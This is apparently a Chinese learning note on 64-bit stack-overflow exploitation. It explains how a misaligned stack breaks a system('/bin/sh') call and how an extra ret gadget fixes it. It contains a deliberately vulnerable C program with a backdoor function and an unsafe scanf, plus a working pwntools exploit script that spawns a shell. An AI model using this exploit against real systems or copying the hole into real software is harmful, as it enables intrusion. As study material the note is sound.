

# 64位栈溢出执行system("/bin/sh")失败

会报错说找不到/bin/sh。这个问题得用了我3天时间来解决。心得就是：要用心找，再就是找bug等一切学习需要时间。

报错代码：



原因：movaps要求内存16字节对齐，普通的填充造成的栈溢出可能使得内存不是16字节对齐。


1、可以用execve(‘/bin/sh’,0,0)代替，这个函数好像没用到movaps。

2、在rbp和返回地址之间多加一个地址，这条地址指向函数的ret指令，让rsp+8，这样就能16字节对齐了。

函数的ret让eip指向我们加入的那个地址，这个地址指向ret，所以下一步会再执行ret，这样就能到达目标代码区域，并且让rsp多加了8


源代码demo.c

```c
#include <stdlib.h>
#include <stdio.h>

void backdoor() {
	printf("backdoor\n");	
	system("/bin/sh");
}

void func() {
	char buf[20];
	printf("Hello man.Say sth.\n");
	scanf("%s",buf);
	printf("you say:%s\n",buf);

}

int main(){
	func();
	return 0;
}
```

编译方法

```bash
gcc demo.c -o demo -fno-stack-protector
```

exp程序

```python
from pwn import *
context(os='linux',log_level='debug') #打印调试信息
#conn = gdb.debug('./demo', 'break main')
conn = process('./demo')
backdoor = 0x40116d
retPos = 0x4011c6

conn.recv()
payload = b'a' * (0x20 + 8) + p64(retPos) + p64(backdoor)

conn.sendline(payload)
conn.recv()
conn.interactive()
```

思路：看到buf缓冲区只有20，可以溢出缓冲区，覆盖返回地址，填充的字节是buf到rbp的距离 + 8字节(rbp占8字节)，然后填写返回地址，用pwn库中的p64函数将地址转为64位小端程序。这里遇到的问题就是

1、搜索后发现有时候导致rsp不是16字节对齐的，而64位中system函数需要用到movaps指令，这条指令要求16字节对齐，否则好像无法执行。

2、所以需要想办法让rsp按照16字节对齐，搜索到大佬的博客

http://homura.cc/blog/archives/168?unapproved=92&moderation-hash=9b8b37cc6d3314fe1f7c00d47ab9c444#comment-92

思路就是在返回地址和rbp之间新加一个地址，这个地址指向当前函数的ret指令，即让ret指令执行两次，第一次执行时pop eip让eip又指向这条ret指令，第二次执行时还是pop eip让eip指向目标代码，这时rsp多减了8，实现了16字节对齐。


心得：这次这个bug用了至少3天时间来解决，

期间学习了在pwn中开一个新的终端继续运行gdb，二者配合使用，非常强大。

还学习如何解决这个bug，知道了movaps指令要求16字节对齐，再就是多加一个地址让ret指令多执行一次的技巧，其实如果可以，应该可以让ret指令执行很多次，即多加n个一样的地址都指向ret，嘿嘿嘿。

仍然还在思考的是怎么写程序向栈中输入真正的0，即它的值是0x00000000，而不是字符‘0’，从终端输入的是字符。


